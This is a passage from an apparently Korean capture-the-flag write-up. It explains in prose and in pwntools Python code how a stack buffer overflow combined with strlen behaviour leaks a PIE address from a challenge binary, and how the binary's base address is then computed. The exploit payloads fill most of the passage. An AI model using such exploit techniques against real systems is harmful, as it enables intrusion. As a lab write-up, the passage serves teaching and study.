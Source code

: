 ![./13.png](./13.png)

# 해결 방안

leak

- 메모리 주소가 출력이 가능한 곳은 사용자의 입력값이 틀렸을 경우 buf의 공간을 출력해주는데 이때 널 바이트 까지 인식하여 출력하는 strlen 함수의 특성을 이용하여 PIE 주소 까지 메모리 주소를 덮고 출력을 하게 된다면 주소를 노출 시킬 수 있다.
- 해당 노출 된 부분으로 PIE 주소 첫 번째 엔트리 부분을 알 수 있기 때문에 오프셋을 바탕으로 필요한 함수를 사용할 수 가 있겠다.

```python
# buffer size ++
print p.sendlineafter(":", "")

# size = 0xa0
payload = p8(0xff)*140
payload += p16(0xa0)
payload += p16(0x0)
print p.sendlineafter(':',payload)

# PIE leak
payload = p8(0xff)*140
payload += p16(0xffff)*2
payload += p8(0xff)*(0xa0-len(payload))

p.send(payload)
p.recvuntil("): ")
p.recv(160)
pie_addr = u64(p.recv(6).ljust(8,
'\x00'))
log.info("PIE_leak : "+hex(pie_addr))

# lib base
pie_base = pie_addr - 0xbb7
log.info("PIE_base : "+hex(pie_base))
p.interactive()
```

1. buf size 증가
    - 스택 버퍼 오버플로우 버그를 만들기 위해 공백 문자를 집어넣어 `v7++` 하여 size가 `0x1008b` 상태로 만든다.
2. PIE leak 공간 만들기
    - PIE 주소 값은 buf[140]을 지나서 20 바이트 위치에 존재하기 때문에 사이즈를 변경해준다.
3. PIE leak
    - size, v7을 16bit 최대 정수 값으로 바꿔주고 160 바이트 전부 데이터를 채워 PIE 주소를 leak할 수 있는 상태로 오버 플로우를 한다.
4. 160 바이트까지 응답을 받은 후에 PIE 주소 값을 긁어와 베이스 주소를 구하자
